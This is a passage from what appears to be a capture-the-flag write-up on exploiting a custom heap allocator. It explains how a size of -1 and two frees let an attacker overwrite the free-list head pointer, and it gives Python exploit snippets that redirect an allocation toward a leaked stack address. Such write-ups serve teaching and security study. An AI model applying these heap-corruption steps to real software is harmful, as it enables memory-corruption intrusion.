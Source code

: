 This is an issue because the `free_buffer(data_ptr)` assumes that it will find the
length of the chunk at `data_ptr - 8` and use this location to store a pointer
to the `head_free_list_ptr`.  This means that, at the next allocation after the
`free()`, this pointer (which we now control) will be dereferenced.


### Exploitation ###

#### Dereferencing an arbitrary location ####

To exploit this, we will use the vulnerability disclosed above to force the heap
allocator to make an allocation directly inside the stack (whose address is
known thanks to the "Nice guy" command). So we need to:

   1. allocate 3 chunks, the second allocated chunk must have a size of -1
   1. free the 3rd chunk
   1. free the 2nd chunk.

```bash

          |  size = N      |
          |  data          |
          |   ..           |
          |                |
          |                |
          |  ptr_to_stack  |
          |  size = -1     |
          |  size = M      |
          |  data          |
          |                |
          |                |

```

Upon the 2nd free, we will gain control of the `head_free_list_ptr`:

```python
  sz = 128
  allocate(s, sz)
  allocate(s, -1)
  allocate(s, 10)

  free(s, "3")
  free(s, "2")

  payload = "A"*(sz-8) + p64(0x4242424242424242)
  write(s, 1, payload)
```

The next allocation will attempt to dereference the address 0x4242424242424242
to see if it's a suitable buffer:

```python
  allocate(s, 0x200)
```
